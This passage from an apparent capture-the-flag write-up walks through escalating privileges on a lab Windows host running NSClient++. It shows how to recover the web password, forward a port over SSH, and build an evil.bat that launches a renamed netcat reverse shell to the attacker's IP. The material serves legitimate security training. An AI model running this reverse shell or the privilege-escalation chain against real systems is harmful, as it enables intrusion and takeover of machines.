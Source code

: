 {% include image.html image_alt="be5feaf4.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/be5feaf4.png" %}

The file `user.txt` is at Nadine's Desktop as expected.

{% include image.html image_alt="b788b30c.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/b788b30c.png" %}

## Privilege Enumeration

Previously we have established the fact that NSClient++ Web Server was behind `8443/tcp`. According to EDB-ID [46802](https://www.exploit-db.com/exploits/46802), we can get the login password with the low-privilege shell that we got.

{% include image.html image_alt="62692328.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/62692328.png" %}

So the password is `ew2x6SsGTxjRwXOT`. Look what happens when we try to log in.

{% include image.html image_alt="2587bf0d.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/2587bf0d.png" %}

Recall Nathan's notes talking about locking down NSClient? This must be it. The configuration states that only `127.0.0.1` is allowed to access.

{% include image.html image_alt="997cec6a.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/997cec6a.png" %}

Well, we can utilize SSH's local port forwarding to do just that. Log off the low-privilege shell and relogin like so.

```
# ssh -L8443:127.0.0.1:8443 nadine@10.10.10.184
```

Once that's done, revisit NSClient++ Web Server, this time replace `10.10.10.184` with `127.0.0.1`.

{% include image.html image_alt="ac861e8f.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/ac861e8f.png" %}

Isn't that easy?

### NSClient++ 0.5.2.35 - Privilege Escalation

Frankly, I have no idea which version of NSClient++ is installed but let's try anyway. It appears that CheckExternalScripts and the Scheduler modules are already enabled when I got in.

I've already placed a copy of `nc.exe` in `C:\Temp` and renamed it as `cute.exe`, as well as a copy of `evil.bat` like so.

```
@echo off
\temp\cute.exe 10.10.16.125 1234 -e cmd.exe
```

Now we add a new section to the `/settings/external scripts/scripts` and set the key to `command` and the value to the path to `evil.bat`.

{% include image.html image_alt="14a6d24a.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/14a6d24a.png" %}
